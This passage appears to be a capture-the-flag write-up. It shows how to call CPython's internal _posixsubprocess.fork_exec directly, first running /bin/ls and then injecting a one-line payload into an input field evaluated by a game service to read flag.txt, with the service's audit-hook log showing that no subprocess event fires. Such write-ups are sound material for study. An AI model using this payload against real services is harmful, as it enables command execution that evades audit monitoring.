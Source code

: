 ```bash
The preexec_fn, if supplied, will be called immediately before closing file
descriptors and exec.
WARNING: preexec_fn is NOT SAFE if your application uses threads.
         It may trigger infrequent, difficult to debug deadlocks.

If an error occurs in the child process before the exec, it is
serialized and written to the errpipe_write fd per subprocess.py.

Returns: the child process's PID.

Raises: Only on an error in the parent process.
Type:      builtin_function_or_method
```

Since we are lazy to figure out the arguments one-by-one, we just look at the how the function is internally used, e.g. by the `multiprocessing` module:

```python
# https://github.com/python/cpython/blob/3.10/Lib/multiprocessing/util.py#L447
# Start a program with only specified fds kept open
def spawnv_passfds(path, args, passfds):
  import _posixsubprocess
  passfds = tuple(sorted(map(int, passfds)))
  errpipe_read, errpipe_write = os.pipe()
  try:
    return _posixsubprocess.fork_exec(
      args, [os.fsencode(path)], True, passfds, None, None,
      -1, -1, -1, -1, -1, -1, errpipe_read, errpipe_write,
      False, False, None, None, None, -1, None
    )
```

So, here is a working example:
```python
In [16]: path = "/bin/ls"
    ...: args = ("/bin/ls", "-l")
    ...: errpipe_read, errpipe_write = os.pipe()
    ...: _posixsubprocess.fork_exec(
    ...:   args, [os.fsencode(path)], True, (), None, None,
    ...:   -1, -1, -1, -1, -1, -1, errpipe_read, errpipe_write,
    ...:   False, False, None, None, None, -1, None
    ...: )
flag.txt  service.py
Out[16]: 43154
```

Awesome! Let's adjust the above payload to dump our flag:

```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
 [*] right_guesser_question_answer: 2311328684755
Raised event: builtins.input
```
`__import__('_posixsubprocess').fork_exec( ('/bin/cat', 'flag.txt'), [b'/bin/cat'], True, (), None, None, -1, -1, -1, -1, -1, -1, *__import__('os').pipe(), False, False, None, None, None, -1, None)`
```bash
Raised event: builtins.input/result
Raised event: compile
Raised event: exec
Raised event: import
Raised event: import
Raised event: import
Raised event: open
Evaluated data:
45352
Guess game end!!!
```